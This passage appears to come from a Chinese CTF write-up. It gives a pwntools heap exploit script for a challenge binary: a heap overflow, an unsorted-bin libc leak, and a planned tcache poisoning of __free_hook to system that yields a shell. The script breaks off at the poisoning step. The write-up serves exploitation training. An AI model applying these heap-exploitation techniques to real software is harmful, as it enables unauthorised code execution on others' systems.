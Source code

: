 之后就是使用 tcache poisoning 来将 `__free_hook` 劫持为 `system`，然后执行 `free("/bin/sh")` 来拿到 shell 了。

### Exploit Script

```python
#!/usr/bin/python3
from pwn import *
import sys
context.terminal = ['tmux', 'splitw', '-h']

# ---------------- Environment Config ---------------- #

filename = "./pwn"
libc_name = "./libc.so.6"

elf = ELF(filename)
libc = ELF(libc_name)

context.log_level = 'info'
context.binary = filename

# ------------------- Exploitation ------------------- #

ru  = lambda a:     io.recvuntil(a)
r   = lambda :      io.recv()
sla = lambda a,b:   io.sendlineafter(a,b)
sa  = lambda a,b:   io.sendafter(a,b)
sl  = lambda a:     io.sendline(a)
s   = lambda a:     io.send(a)

# {"choice":"add","index":0,"length":16,"message":"aaa"}

def comm(choice, index, length, message):
    ru(b"Please input:")
    s(f'{"choice":"{choice}","index":{index},"length":{length},"message":"'.encode()+message+'"}\n'.encode())

def add(length, message):
    comm("new", 0, length, message)
def delete(index):
    comm("rm", index, 0, b"a")
def view(index):
    comm("view", index, 0, b"a")
def edit(index, length, message):
    comm("modify", index, length, message)

def pwn():
    add(0x40, b'im_block_0')
    add(0x40, b'im_block_1')

    # overflow block_1's size to 0x531 (thus next_chunk is top chunk)
    edit(0, 0x2a0, b'A'*0x298 + b'\x31\x05')

    # unsorted bin
    delete(1)

    # leak libc address
    edit(1, 0xa8, b'a'*0xa8)
    view(1)
    ru(b'a'*0xa8)
    libc_base = u64(ru(b'\n')[:-1].ljust(8, b'\0'))-0x1ecbe0
    log.info(f'libc_base: {hex(libc_base)}')

    # tcache poisoning
```